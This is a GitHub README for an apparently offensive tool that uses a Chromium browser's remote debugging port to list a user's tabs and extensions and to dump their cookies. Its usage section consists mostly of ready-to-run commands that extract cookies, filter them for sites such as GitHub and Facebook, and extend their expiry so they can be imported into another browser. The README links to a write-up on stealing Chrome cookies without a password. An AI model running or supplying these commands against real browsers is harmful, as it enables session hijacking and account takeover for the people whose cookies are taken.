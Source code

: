 # WhiteChocolateMacademiaNut

![WhiteChocolateMacademiaNut](./example.png)

## Description
Interacts with [Chromium-based browsers' debug port](https://blog.chromium.org/2011/05/remote-debugging-with-chrome-developer.html) to view open tabs, installed extensions, and cookies. Tested against Google Chrome and Microsoft Edge.

## Usage
- Dump the user's open tabs and installed extensions
    - ```./WhiteChocolateMacademiaNut -p 4200 -d pages```
- Dump the user's cookies in human-readable format
    - ```./WhiteChocolateMacademiaNut --port 1337 --dump cookies --format human```
- Dump the user's cookies in raw JSON as returned by Chromium
    - ```./WhiteChocolateMacademiaNut --port 1234 --dump cookies --format raw```
- Dump the user's cookies in JSON with the name, value, domain, path, and modified expirationDate attribute to 10 years in the future (compatible with [Cookiebro extension](https://nodetics.com/cookiebro/))
    - ```./WhiteChocolateMacademiaNut -p 666 -d cookies -f modified```
- Dump the user's cookies in JSON if the cookie name or domain field contains `github` and modifies the expirationDate attribute
    - ```./WhiteChocolateMacademiaNut -p 4321 -d cookies -f modified -g github```
- Dump the user's cookies in human-readable format if the cookie name or domain field contains `facebook`
    -  ```./WhiteChocolateMacademiaNut --port 31415 --dump cookies --format human --grep facebook```

## References
- https://mango.pdf.zone/stealing-chrome-cookies-without-a-password
- https://github.com/defaultnamehere/cookie_crimes
